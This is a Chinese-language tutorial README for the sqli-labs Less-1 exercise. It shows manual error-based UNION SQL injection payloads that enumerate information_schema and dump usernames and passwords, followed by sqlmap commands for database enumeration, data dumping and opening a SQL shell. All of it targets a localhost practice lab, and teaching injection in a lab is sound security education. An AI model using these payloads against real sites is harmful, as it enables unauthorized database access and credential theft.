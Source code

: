 ## Some Tools ,Writeup or Labs About Sql-Injection
#### 1、sqlmap 
[sqlmapproject-sqlmap.zip](Tools/sqlmapproject-sqlmap.zip)

#### 2、sqli-labs
[sqli-labs.zip](Src/sqli-labs.zip)

#### 3、sqlli-labs参考WP
[sqli-labs参考.pdf](Book/sqli-labs参考.pdf)

#### 4、sqlli-labs参考WP
[sqlmap教程.pdf](Book/sqlmap教程.pdf)

## 简单入门
### 一、Introduction
Sqli-labs是一个印度程序员写的，用来学习sql注入的一个游戏教程
官方地址传送门 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
至于环境搭建，可以通过docker部署一下或者phpStudy本地部署一下[http://phpstudy.php.cn/](http://phpstudy.php.cn/),部署详情可参照本书(p3)[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs参考.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs%E5%8F%82%E8%80%83.pdf)。
<!--more-->
### 二、通过sqli-labs-Less-1 学习一些基本mysql操作
在环境搭建好之后我们能看到每个题目都有一个描述把本题的考点指出，这也意味着降低了我们的难度
![](image/Sqli-Labs-Sqlmap-基础篇/1.png)
#### Less-1
**hint**:GET-Error based-Single quotes-String

**Hack**:
1、进入后要求GET传入一个id
![](image/Sqli-Labs-Sqlmap-基础篇/2.png)
2、每传入一个id屏幕上显示不同的name和password
![](image/Sqli-Labs-Sqlmap-基础篇/3.png)
3、传入一个单引号试探注入点，发现报错
```
.....  syntax to use near ''1'' LIMIT 0,1' at line 1...

```
思考为什么会出现`''1'' LIMIT 0,1'`,最外面一组单引号是报错的显示，所以在sql语句中应该是`'1'' LIMIT 0,1`,其实`1'`是我们传的参数，所以大致能猜测到访问数据库语句为
```
SELECT name,Password FROM users WHERE id='$id' LIMIT 0,1
```
4、过程
首先为了sql注入，我们需要拿一个`'`来截断 `id='$id'`，并且在末尾添加#或者--+来注释，（注意url中遇到空格，#等字符需要url编码一次）,比如我们可以输入`1 'union select name,Password FROM users #`（当然现在还不知道数据库名和字段），另外本题应该只展示拿到的第一个数据。
```
SELECT name,Password FROM users WHERE id='1'union select name,Password FROM users # ' LIMIT 0,1;
```
![](image/Sqli-Labs-Sqlmap-基础篇/4.png)

5、基本知识储备
当我们不知道数据库名，表名字段名时，需要去爆库，原理其实就是MySQL版本大于5.0时，有个默认数据库information_schema，里面存放着所有数据库的信息(比如表名、 列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。
爆库的标准姿势
```
select schema_name from information_schema.schemata;     //猜数据库

select table_name from information_schema.tables where table_schema='xxxxx';     //猜某数据库的数据表

Select column_name from information_schema.columns where table_name='xxxxx';     //猜某表的字段名
```
在mysql中可以直接拿数字作为order by或者group by的参数,但是数字一定要小于我们拿出来的列数否者报错
![](image/Sqli-Labs-Sqlmap-基础篇/5.png)
另外concat()能将一些字符串连接一个字符串适用于一条数据,group_concat()能够将一张表的数据的一些数据分组合并起来，适用性比较广
6、所以本题基本payload,先通过传id=-1让第一句为空，展示出第二句
首先看sql语句中拿了多少列数据
```
1' order by 3%23    //不报错
1' order by 4%23    //报错
```
所以大概有3列数据，一般能想得到多拿了一个id，所以我们可以通过，第二列第三列数据拿到信息
首先爆数据库有哪些
```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/6.png)
拿到五个数据库`information_schema,challenges,mysql,performance_schema,security`
现在查询security数据库哪些表
```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
```
拿到`emails,referers,uagents,users`
现在查询users的所有字段
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
```
拿到`id,username,password`
最后可以拿到所有人的账号密码
```
-1' union select 1,group_concat(username),group_concat(password) from users%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/7.png)
### 三、sqlmap使用
sqlmap是基于python2.6/2.7的，所以推荐大家拿virtualenv搭建py2.7虚拟环境,保不定以后有用,教程[https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/](https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/)，Sqlmap是开源的自动化SQL注入工具,当然这是在于自己手注不进去的时候可以参考一下，github地址为[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)，功能参考书[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap教程.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap%E6%95%99%E7%A8%8B.pdf)
#### 一些常用使用命令
##### 1、是否能注入
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"
```
##### 2、获取所有的数据库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs
```
##### 3、当前库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db
```
##### 4、查询某数据库的所有表（比如security）
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"  -D security --tables
```
##### 5、暴力查询所有的表
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   --tables
```
##### 6、列出security库中users表中的所有列
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users --columns
```
(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)
##### 7、导出三个数据列中所有的数据
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users -C id,username,password --dump
```
##### 8、提供一个sql shell
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --sql-shell
```

[下一篇-2~6题详解](README2.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)